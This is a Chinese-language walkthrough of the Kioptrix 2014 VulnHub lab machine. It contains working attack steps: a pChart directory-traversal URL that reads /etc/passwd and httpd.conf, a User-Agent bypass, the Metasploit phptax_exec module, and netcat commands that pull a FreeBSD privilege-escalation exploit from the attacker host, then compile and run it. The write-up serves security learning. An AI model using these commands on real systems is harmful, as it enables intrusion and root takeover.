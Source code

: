 # Kioptrix5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-2014-5,62/

**Description**

As usual, this vulnerable machine is targeted at the beginner. It's not meant for the seasoned pentester or security geek that's been at this sort of stuff for 10 years. Everyone needs a place to start and all I want to do is help in that regard.

Also, before powering on the VM I suggest you remove the network card and re-add it. For some oddball reason it doesn't get its IP (well I do kinda know why but don't want to give any details away). So just add the VM to your virtualization software, remove and then add a network card. Set it to bridge mode and you should be good to go.

This was created using ESX 5.0 and tested on Fusion, but shouldn't be much of a problem on other platforms.

Kioptrix VM 2014 download 825Megs

MD5 (kiop2014.tar.bz2) = 1f802308f7f9f52a7a0d973fbda22c0a

SHA1 (kiop2014.tar.bz2) = 116eb311b91b28731855575a9157043666230432

Waist line 32"

p.s.: Don't forget to read my disclaimer...

Works out of the box with VMware workstation 10, player 6, fusion 6 (Can edit the vmx file to force a downgrade for an older version - see 'kiop2014_fix.zip'). Has been known to work with Virtualbox 4.3 or higher... First thing: try setting it to a x64 machine. Then check: http://download.vulnhub.com/kioptrix/kiop2014_fix.zip.

**知识点**
- LFI
- 自定义 User-agent
- phptax 漏洞利用
- freebsd 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.147` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.147
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/2.png)

一个 SSH，2个 web,从 web 先入手

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/3.png)

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/4.png)

看来都需要爆破目录了
```
dirb http://192.168.141.147
dirb http://192.168.141.147:8080
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/5.png)

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/6.png)

啥都没有,再看看 index.html

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/7.png)

有个 pChart2.1.3,访问看看

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/8.png)

---

# 中期-漏洞利用

有点意思,找找它的漏洞
```
searchsploit -w pChart
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/9.png)

访问 https://www.exploit-db.com/exploits/31173,发现有个目录遍历可以利用下

`http://192.168.141.147/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/10.png)

尝试使用这个漏洞挖掘更多的信息

爆了半天，没爆出 httpd 配置文件，google 了一下发现别人爆出来是 `http://192.168.141.147/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf`

想不出来这个 apache22 是怎么爆出来的，难不成是看 apache 版本号?

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/11.png)

看了下 httpd.conf 的内容,发现 8080 只允许 user-agent 为 Mozilla/4.0 Mozilla4_browser 才能访问

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/12.png)

firefox 可以自定义 user-agent

访问 about:config,搜索 general.useragent.override

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/13.png)

输入 `Mozilla/4.0 Mozilla4_browser`,再访问 192.168.141.147:8080

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/14.png)

ok,有东西了,点进去看看

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/15.png)

看起来这东西有一定年头了,搜了下这是个叫 phptax 的纳税工具,MSF 有个可利用的模块
```
msfconsole
use exploit/multi/http/phptax_exec
options
set RHOSTS 192.168.141.147
set RPORT 8080
run
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/16.png)

下面尝试提权

---

# 后期-漏洞利用

查看一些基本信息
```bash
/bin/sh -i
uname -a
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/17.png)

```
searchsploit -w freebsd 9.0
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/18.png)

kali 访问 https://www.exploit-db.com/download/26368,下载 poc

kali 下载完启 HTTP
```bash
wget https://www.exploit-db.com/download/26368
mv 26368 poc.c
nc -lvp 1234 < poc.c
```

靶机下载 kali 上的 poc
```bash
cd /tmp
nc -nv 192.168.141.134 1234 > poc.c
gcc poc.c
ls
./a.out
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/19.png)

提权成功,感谢 Kioptrix Team 制作的系列靶机
